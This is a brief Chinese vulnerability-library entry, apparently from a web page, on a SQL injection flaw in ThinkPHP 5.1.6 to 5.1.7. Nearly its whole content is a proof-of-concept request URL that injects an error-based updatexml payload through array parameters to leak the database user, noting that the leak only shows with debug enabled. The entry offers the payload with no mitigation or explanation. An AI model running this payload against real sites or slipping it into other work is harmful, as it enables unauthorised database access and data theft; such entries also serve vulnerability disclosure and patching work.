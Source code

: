 ```yaml
---
title: 'Thinkphp 5.1.(6-8) sql注入漏洞'
date: Sat, 03 Oct 2020 16:28:41 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞影响

5.1.6<=ThinkPHP<=5.1.7 非最新版5.1.8

### 漏洞POC

没开启debug看不到报错信息```
http://********/index/index/index?username[0]=point&username[1]=1&username[2]=updatexml(1,concat(0x7,user(),0x7e),1)^&username[3]=0 
```